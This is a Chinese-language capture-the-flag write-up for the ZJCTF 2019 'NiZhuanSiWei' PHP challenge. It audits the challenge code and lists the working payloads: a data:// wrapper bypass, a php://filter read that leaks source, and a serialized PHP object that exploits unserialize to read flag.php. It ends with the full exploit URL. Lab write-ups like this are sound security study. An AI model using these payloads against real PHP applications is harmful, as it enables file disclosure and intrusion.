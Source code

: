# [ZJCTF 2019]NiZhuanSiWei 1

- 进入网页，开始代码审计

```php
 <?php  
//构建参数text file password
$text = $_GET["text"];
$file = $_GET["file"];
$password = $_GET["password"];
//text内容必须为welcome to the zjctf
if(isset($text)&&(file_get_contents($text,'r')==="welcome to the zjctf")){
    echo "<br><h1>".file_get_contents($text,'r')."</h1></br>";
    //file中不能存在flag
    if(preg_match("/flag/",$file)){
        echo "Not now!";
        exit(); 
    }else{
        //文件包含file
        include($file);  //useless.php
        //对password进行反序列化
        $password = unserialize($password);
        echo $password;
    }
}
else{
    highlight_file(__FILE__);
}
?> 
```

- 从代码审计的结果来看，这道题有三层，第一层是构建text，绕过 `file_get_contents()` 函数，第二层是构建flag，获取 `useless.php` 中的内容，第三层则是通过 `useless.php` 中的提示来构建password得到flag

- 首先考虑第一层，这道题使用GET传参，则可以使用 `data://` 伪协议，尝试成功

`?text=data://text/plain,welcome to the zjctf`

> <img src="../../IMG2/Screenshot 2024-06-02 200822.png">

- 第二层是获取 `useless.php` 中的内容，直接输入 `useless.php` 没有任何反应，使用 `php://filter/` 伪协议尝试成功

`?text=data://text/plain,welcome to the zjctf&file=php://filter/convert.base64-encode/resource=useless.php`

> <img src="../../IMG2/Screenshot 2024-06-02 203649.png">

- 使用base64解码，得到一串代码，开始代码审计

```php
<?php  
class Flag{  //flag.php  
    public $file;  
    public function __tostring(){  
        if(isset($this->file)){  
            echo file_get_contents($this->file); 
            echo "<br>";
        return ("U R SO CLOSE !///COME ON PLZ");
        }  
    }  
}  
?>  
```

- 根据代码审计结果，我们需要构建类Flag，Flag里需要存在一个属性$file，$file会经历一次 `file_get_contents()` 函数，代码也提示了存在flag.php，因此payload如下

```php
class Flag{
    public $file = 'flag.php';
}
$pass = new Flag();
echo serialize($pass);
```

- 输入结果为 `O:4:"Flag":1:{s:4:"file";s:8:"flag.php";}` ，将结果作为参数password的值，最终payload如下，在源代码中发现flag

`http://9b8ce083-989a-4e81-911c-31e651b04448.node5.buuoj.cn:81/index.php?text=data://text/plain,welcome%20to%20the%20zjctf&file=useless.php&password=O:4:%22Flag%22:1:{s:4:%22file%22;s:8:%22flag.php%22;}`

> <img src="../../IMG2/Screenshot 2024-06-02 204647.png">
